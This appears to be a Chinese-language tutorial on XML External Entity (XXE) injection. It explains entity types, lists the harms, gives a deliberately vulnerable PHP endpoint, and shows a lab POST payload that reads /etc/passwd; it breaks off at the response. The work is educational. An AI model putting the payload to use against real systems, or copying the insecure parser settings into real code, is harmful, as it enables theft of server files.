

#### 可能有用的连接
- [浅谈XXE攻击 ---- Freebuf](http://www.freebuf.com/articles/web/126788.html)
- [XXE漏洞的简单理解和测试 ---- mottoin](http://www.mottoin.com/92794.html)
- [XXE (XML External Entity Injection) 漏洞实践 ---- mottoin](http://www.mottoin.com/101806.html)
- [DTD/XXE 攻击笔记分享 ---- freebuf](http://www.freebuf.com/articles/web/97833.html)
- [看我如何发现Uber合作方网站XXE 0day漏洞并获得9000美元赏金 ---- freebuf](http://www.freebuf.com/vuls/126603.html)
- [Oracle盲注结合XXE漏洞远程获取数据 ---- wooyun知识库](http://drops.ichenfei.com/papers-6035.html)
- [XML安全之Web Services ---- wooyun知识库](http://drops.ichenfei.com/web-5410.html)


##### 简介

`XXE (XML External Entity Injection)` 漏洞发生在应用程序解析 XML 输入时，没有禁止外部实体的加载。

那什么是 `实体(Entities)` 和 `外部实体(Externally Entities)` 呢

简单的理解，一个实体就是一个变量，可以在文档中的其他位置引用该变量。

实体主要分为四种：

- 内置实体 (Built-in entities)
- 字符实体 (Character entities)
- 通用实体 (General entities)
- 参数实体 (Parameter entities)

完整的介绍可以参考 [DTD - 实体 ---- w3school](http://www.w3school.com.cn/dtd/dtd_entities.asp)

首先实体的声明必须在 DTD 文件 或 <!DOCTYPE> 中，如
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
 <!ENTITY name "value">]>
<foo>
 <value>&name;</value> 
</foo>
```
中的`<!ENTITY name "value">`,其中参数实体的引用是 是以`%name`; 的格式来引用，其他实体则是`&name`; 的格式,`name`为实体名

只有在`DTD`文件中, 参数实体的声明才能够引用其他实体。

参数实体只能在`DTD`文件中被引用，其他实体在`XML`文档内引用。

内置实体为预留的实体，如:
```
实体引用  字符
&lt;       <
&gt;       >
&amp;      &
&quot;     "
&apos;     '
```
字符实体 与 html 的实体编码类似，有十进制(&#97;)和十六进制(&#x61;)

此外，根据实体声明的方式不同，还分为内部实体和外部实体

因为 XXE 利用的是外部实体 这里主要说一下外部实体：

声明语法 / 例子 / 实体引用

```xml
<!ENTITY 实体名称 SYSTEM "URI/URL">

<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">

<author>&writer;</author>
```
这里的 URI/URL 可以是 http链接, file://本地文件引用 等，因此可以加载http指向的资源 和 本地文件。

在 XXE 攻击没有回显的情况下，可以利用参数实体来获取回显数据。

##### 危害：

对于 XXE 的危害，主要有：

- 窃取敏感数据 (extracting sensitive data)
- 远程代码执行 (remote code execution)

对于 RCE 来说，需要安装并加载 PHP expect module, 比较少见

##### 测试

存在xxe漏洞的php代码如下:
```php
xmlinject.php 

<?php
# Enable the ability to load external entities
libxml_disable_entity_loader (false);

$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();

# http://hublog.hubmed.org/archives/001854.html
# LIBXML_NOENT: 将 XML 中的实体引用 替换 成对应的值
# LIBXML_DTDLOAD: 加载 DOCTYPE 中的 DTD 文件
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); // this stuff is required to make sure

$creds = simplexml_import_dom($dom);
$user = $creds->user;
$pass = $creds->pass;

echo "You have logged in as user $user";
?>
```

- 环境搭建:
	- lnmp 环境
	- Ubuntu 16.04
	- nginx 1.10.3 
	- php7.0
	- xmlinject.php

POST http://192.168.48.145/xmlinject.php
```
<creds>
 <user>admin</user>
 <pass>mypass</pass>
</creds>

响应: You have logged in as user admin
```

POST http://192.168.48.145/xmlinject.php
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>

这里声明了一个外部实体 xxe，值为 file:///etc/passwd，即本地 /etc/passwd 文件的内容
<!ENTITY xxe SYSTEM "file:///etc/passwd" >
然后在元素 user 内引用了该实体 &xxe;
<user>&xxe;</user>
```
响应:

